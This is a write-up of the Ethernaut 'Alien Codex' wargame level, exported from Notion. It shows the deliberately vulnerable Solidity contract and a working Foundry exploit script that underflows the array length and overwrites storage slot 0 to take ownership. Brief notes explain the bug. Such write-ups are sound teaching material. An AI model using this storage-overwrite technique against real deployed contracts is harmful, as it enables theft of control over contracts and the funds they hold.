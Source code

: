 ```yaml
---
title: "Alien Codex"
date: "2024-02-25T10:35:00.000Z"
lastmod: "2024-02-25T19:04:00.000Z"
draft: false
difficulty: "⭐⭐⭐⭐"
prev: "Magic-Number-6d707756089b4bb286e3ce6cad62ac5c"
weight: 20
state: "Terminé"
level-url: "https://ethernaut.openzeppelin.com/level/19"
next: "Denial-edd8839ce63a4a2194adfd2905ad4940"
type: "docs"
NOTION_METADATA:
  object: "page"
  id: "d14fa389-394f-4031-b7c2-ffcdeeebeb56"
  created_time: "2024-02-25T10:35:00.000Z"
  last_edited_time: "2024-02-25T19:04:00.000Z"
  created_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  last_edited_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  cover: null
  icon:
    type: "external"
    external:
      url: "https://ethernaut.openzeppelin.com/imgs/BigLevel19.svg"
  parent:
    type: "database_id"
    database_id: "cb6853ff-d731-4d6a-9080-6c8efeec5b1c"
  archived: false
  properties:
    difficulty:
      id: "IAjo"
      type: "select"
      select:
        id: "f9c2f40a-0144-4e6d-a134-6b9fd725f7a9"
        name: "⭐⭐⭐⭐"
        color: "red"
    prev:
      id: "LLP%5C"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Magic-Number-6d707756089b4bb286e3ce6cad62ac5c"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Magic-Number-6d707756089b4bb286e3ce6cad62ac5c"
          href: null
    date:
      id: "Y%40Gy"
      type: "date"
      date: null
    weight:
      id: "%5Dyda"
      type: "number"
      number: 20
    state:
      id: "f%40ps"
      type: "status"
      status:
        id: "abb7fad3-add1-4b13-946c-06bff36598bf"
        name: "Terminé"
        color: "green"
    level-url:
      id: "juZs"
      type: "url"
      url: "https://ethernaut.openzeppelin.com/level/19"
    next:
      id: "pocA"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Denial-edd8839ce63a4a2194adfd2905ad4940"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Denial-edd8839ce63a4a2194adfd2905ad4940"
          href: null
    type:
      id: "s%7DKc"
      type: "select"
      select:
        id: "OnJy"
        name: "docs"
        color: "default"
    title:
      id: "title"
      type: "title"
      title:
        - type: "text"
          text:
            content: "Alien Codex"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Alien Codex"
          href: null
  url: "https://www.notion.so/Alien-Codex-d14fa389394f4031b7c2ffcdeeebeb56"
  public_url: null
UPDATE_TIME: "2024-02-25T22:18:41.025Z"

---
```

<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/katex@0.16.2/dist/katex.min.css" integrity="sha384-bYdxxUwYipFNohQlHt0bjN/LCpueqWz13HufFEV1SUatKs1cm4L6fFgCi1jT643X" crossorigin="anonymous">


You've uncovered an Alien contract. Claim ownership to complete the level.


Things that might help

- Understanding how array storage works
- Understanding [ABI specifications](https://solidity.readthedocs.io/en/v0.4.21/abi-spec.html)
- Using a very `underhanded` approach

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import '../helpers/Ownable-05.sol';

contract AlienCodex is Ownable {

  bool public contact;
  bytes32[] public codex;

  modifier contacted() {
    assert(contact);
    _;
  }
  
  function makeContact() public {
    contact = true;
  }

  function record(bytes32 _content) contacted public {
    codex.push(_content);
  }

  function retract() contacted public {
    codex.length--;
  }

  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
```


Solution:


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";

interface AlienCodex {
  function contact() external returns(bool);
  function codex() external returns(bytes32[] memory);
  function makeContact() external;
  function retract() external;
  function revise(uint i, bytes32 _content) external;
  function owner() external returns(address);
}

contract POC is Script {
    function run() external {
        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address pubKey = vm.envAddress("PUBLIC_KEY");
        address addr = vm.envAddress("INSTANCE_19");

        vm.startBroadcast(deployerPrivateKey);

        AlienCodex codex = AlienCodex(addr);

        // codex array at slot 1 => first elt in the array at slot keccak256(1)
        uint eltSlot = uint(keccak256(abi.encode(1)));

        // owner address is stored on the first 20 bytes of slot 0
        uint distanceFromSlot0 = type(uint).max - eltSlot;

        codex.makeContact();

        // length underflow; now codex is of length type(uint).max
        // which allows us to reach every possible slot of the contract
        codex.retract();

        // write attacker's address at slot 0
        codex.revise(distanceFromSlot0 + 1, bytes32(abi.encode(pubKey)));

        console.logAddress(codex.owner());

        vm.stopBroadcast();

    }
}
```


This level exploits the fact that the EVM doesn't validate an array's ABI-encoded length vs its actual payload.


Additionally, it exploits the arithmetic underflow of array length, 
by expanding the array's bounds to the entire storage area of `2^256`. The user is then able to modify all contract storage.


Both vulnerabilities are inspired by 2017's [Underhanded coding contest](https://medium.com/@weka/announcing-the-winners-of-the-first-underhanded-solidity-coding-contest-282563a87079)

